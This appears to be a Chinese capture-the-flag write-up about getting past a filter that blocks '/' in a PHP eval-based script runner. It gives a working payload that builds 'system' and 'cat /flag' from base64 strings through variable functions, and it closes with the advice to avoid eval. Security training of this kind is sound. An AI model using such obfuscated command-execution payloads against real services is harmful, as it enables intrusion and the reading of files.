

### 内网渗透与高级社工-免杀payload制作-G4

#### 题目

数据团队搭建了一套在线数据处理流水线，允许用户提交处理脚本进行批量运算。为了防止滥用，系统内置了一套覆盖面极广的安全特征库，几乎所有常见的危险操作都会被识别并拦截。你的任务是测试这道防线是否真的无懈可击——请尝试获取服务器上的 flag。

#### Fuzz测试

结果如下：



符号过滤了`/`，其次是一系列关于命令执行、编码、文件操作的函数。

那这题感觉和裸奔没区别呀，用一下以前的payload：

呃以前的异或和自增，里面都用到了`/`，虽然可以让AI更新一下脚本（就是说成我G2中说的那样，可自选可用和不可用集合），但是还是太麻烦了。我直接用**可变函数**了。

#### 可变函数

给字符串后面加一个`()`就会当成函数处理，作为一条正确的php代码！

看个例子就懂了：

```php
$a='sys';
$b='tem';
$c="$a$b";
$c("ls");
//相当于system("ls");
```

或者:

```php
base64_decode('c3lzdGVt')("ls");
//相当于system("ls");
```

payload（这题裸奔了，方法很多）：

```php
$a="base64_";
$b="decode";
$c="$a$b";
$c('c3lzdGVt')($c('Y2F0IC9mbGFn'));
```

OK！

#### 总结：

裸奔，防御策略还是那句话——AI说的是——"满足一部分需求不需要图灵完备的语言"。写个解析器，别直接用eval。这是最首要的策略。
